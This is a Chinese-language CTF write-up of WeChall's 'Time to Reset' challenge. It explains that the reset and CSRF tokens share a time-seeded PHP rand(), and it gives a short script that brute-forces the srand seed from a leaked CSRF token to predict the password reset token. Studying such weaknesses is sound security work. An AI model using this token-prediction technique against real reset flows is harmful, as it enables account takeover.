 ```yaml
---
title: Time to Reset
author: rk700
layout: post
redirect_from: /writeup/2014/06/18/time-to-reset
tags:
  - PHP
  - wechall
---
```

[http://www.wechall.net/challenge/time\_to\_reset/index.php][1]  
最初的想法还是和注入有关，试了几次发现邮件地址不能包含特殊字符……

再从头开始看代码，发现了不自然的地方：  
提交email的表格里有CSRF的token，感觉似乎在见过的题目里并不常见；其实这也还说得过去，但是token的生成方式太可疑了，用的是和reset token同样的函数；更可疑的是，CSRF token只是生成了，并没有任何对其的检查来防范CSRF。所以这个是用来让我们暴力srand的seed的

首先生成32位的CSRF token，然后是16位的rest token。于是我们可以暴力破解，而`time()`的值可以从RFI那题里得到

下面是用来破解的代码, `ttr_random`函数就直接用题里的代码

{% highlight php %}
<?php
function ttr_random($len, $alpha='abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789')
{
    $alphalen = strlen($alpha) - 1;
    $key = '';
    for($i = 0; $i < $len; $i++)
    {
        $key .= $alpha[rand(0, $alphalen)];
    }
    return $key;
}

$time=1403111639;
for($i=0; $i<255; $i++) {
    srand($time+$i);
    $csrf=ttr_random(32);
    $real='BLQChCcpFPZoACf9VpoeKEes4k2BpeDR';
    if($csrf === $real) {
        echo ttr_random(16).PHP_EOL;
    }
}
?>
{% endhighlight %}

 [1]: http://www.wechall.net/challenge/time_to_reset/index.php